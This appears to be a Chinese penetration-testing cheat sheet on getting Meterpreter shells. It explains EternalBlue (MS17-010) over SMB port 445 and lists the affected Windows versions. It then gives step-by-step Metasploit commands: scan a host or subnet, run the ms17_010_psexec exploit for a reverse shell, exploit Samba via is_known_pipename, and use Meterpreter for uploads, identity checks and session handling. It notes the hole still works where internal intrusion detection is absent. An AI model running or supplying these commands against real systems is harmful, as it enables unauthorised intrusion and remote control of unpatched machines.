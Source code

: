 ## **meterpreter**
meterpreter就是获取主机getshell，上线后的会话。

模拟使用ms17_010永恒之蓝拿下meterpreter的shell。
>ms17_010： 微软安全公告2017年第10个，永恒之蓝EternalBlue，利用windows的SMB服务协议445端口，实现执行代码反弹shell。
>SMB：是一种默认开启并开放445端口用于在局域网中共享文件、打印机和其他资源的网络协议。Windows系统使用SMB来实现文件和打印机共享，以便用户可以轻松地在网络上访问和共享文件。
>影响的系统版本：
Windows Vista
Windows Server 2008
Windows 7 (主要)
Windows Server 2008 R2 （主要）
Windows 8.1
Windows Server 2012
Windows 10
Windows Server 2016
内网IDS不做防护，还可以利用这个漏洞。

^
## **445打永恒之蓝**
```
msfconsole  //启动msf

search ms17_010   //可以看到两个辅助检测模块auxiliary，两个利用模块exploit。

use   auxiliary/scanner/smb/smb_ms17_010   //先检测有没有。

show options
set rhosts 192.168.16.173     //设置目标等参数
set rhosts 192.168.16.0/24   //设置为扫网段探测
set thread 10

run   //检测目标445端口，返回结果存在漏洞

use exploit/windows/smb/ms17_010_psexec  //使用利用模块

run  //创建反弹shell，进入meterpreter


meterpreter>对目标机操作，提权等。
```
^
## **139打samba服务**
```
msfconsole
use exploit/linux/samba/is_known_pipename
set rhost 172.2.42.6
exploit 
直接返回shell
```








^
meterpreter常用命令操作：
<https://www.cnblogs.com/crabin/p/17486024.html>
```
上传文件
upload   /root/les.sh   /tmp/les.sh

查看身份
getuid

shell交互窗口
shell


后台运行会话
meterpreter>background

查看有哪些会话
msf>sessions

进入会话
msf>sessions 1
```